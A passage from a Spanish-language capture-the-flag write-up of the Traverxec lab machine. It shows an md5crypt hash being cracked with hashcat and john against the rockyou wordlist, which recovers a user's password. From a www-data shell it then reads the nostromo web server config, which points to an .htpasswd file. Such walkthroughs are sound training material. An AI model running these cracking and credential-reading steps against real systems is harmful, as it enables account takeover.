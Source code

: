 Ahora que conocemos el modo, podemos intentar descifrar el hash:

```shell
❯ find / -name 'hashcat.potfile' 2>/dev/null
/home/wixnic/.hashcat/hashcat.potfile
❯ echo '' > ~/.hashcat/hashcat.potfile
❯ hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --username --force                                                   
...<SNIP>...
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
...<SNIP>...
```

También puedes usar john, pero déjame vaciar mi archivo pot primero:

```shell
❯ find / -name 'john.pot' 2>/dev/null
/home/wixnic/.john/john.pot
❯ echo '' > ~/.john/john.pot
```

Ahora podemos usar john:

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)
1g 0:00:00:22 DONE (2021-10-17 18:47) 0.04411g/s 466626p/s 466626c/s 466626C/s Noyoudo..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Mirando el archivo de configuración de nostromo `nhttpd.conf`:

```shell
www-data@traverxec:$ cd /var/nostromo/conf
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

```